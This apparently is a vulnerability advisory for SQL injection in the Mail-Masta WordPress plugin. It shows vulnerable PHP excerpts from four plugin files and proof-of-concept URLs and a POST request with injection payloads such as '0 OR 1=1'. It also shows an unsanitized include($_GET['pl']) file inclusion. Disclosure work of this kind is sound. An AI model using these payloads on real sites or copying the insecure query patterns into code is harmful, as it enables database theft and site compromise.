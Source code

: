 Mail-Masta SQL Injection
=========================================
Page: ../wp-content/plugins/mail-masta/inc/lists/csvexport.php (Unauthenticated)

GET Parameter: list_id

http://my_wp_app/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php


csvexport.php:

    $list_id=$_GET['list_id'];
    global $wpdb;
    $mail_subscribers = $wpdb->prefix . "masta_subscribers";
    $masta_list = $wpdb->prefix . "masta_list";
    $check_sql = "SELECT * FROM $mail_subscribers WHERE list_id = $list_id";
    $check_list="SELECT * FROM $masta_list WHERE list_id= $list_id";
    $wp_list=$wpdb->get_results($check_sql);
    $wp_list_s=$wpdb->get_results($check_list);



=========================================

Page: ../wp-content/plugins/mail-masta/inc/lists/view-list.php (Requires Wordpress admin)

GET Parameter: filter_list

http://my_wp_app/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1


view-list.php:

    global $wpdb;
    $list_id = $_GET['filter_list'];
    $masta_list = $wpdb->prefix . "masta_list";
    $masta_subscribers = $wpdb->prefix . "masta_subscribers";
    $listdata = $wpdb->get_results( $wpdb->prepare("SELECT * FROM $masta_list WHERE list_id= $list_id",$query));
    $list_subscribers = $wpdb->get_var( $wpdb->prepare("SELECT COUNT( `list_id` ) FROM $masta_subscribers WHERE list_id= $list_id AND status=1",$query));

=========================================

Page: ../wp-content/plugins/mail-masta/inc/campaign/count_of_send.php (Requires Wordpress admin)

POST Parameter: camp_id

http://my_wp_app/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php


count_of_send.php:

    include($_GET['pl']);
    global $wpdb;
    $camp_id=$_POST['camp_id'];
    $masta_reports = $wpdb->prefix . "masta_reports";
    $count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");


=========================================


Page: ../wp-content/plugins/mail-masta/inc/campaign_save.php (Requires Wordpress admin)

POST Parameter: list_id

campaign_save.php:

    $list_id=$_POST['list_id'];
    $check_list = $wpdb->get_var("SELECT count(id) FROM wp_masta_subscribers where list_id=$list_id");


POST /wp-admin/admin-ajax.php?id= HTTP/1.1

...snip...

action=my_action&url=%2Fvar%2Fwww%2Fhtml%2Fwp-content%2Fplugins%2Fmail-masta%2Finc%2Fcampaign_save.php&sender_selected_list_check=check&list_id=1+OR+1%3D1

=========================================
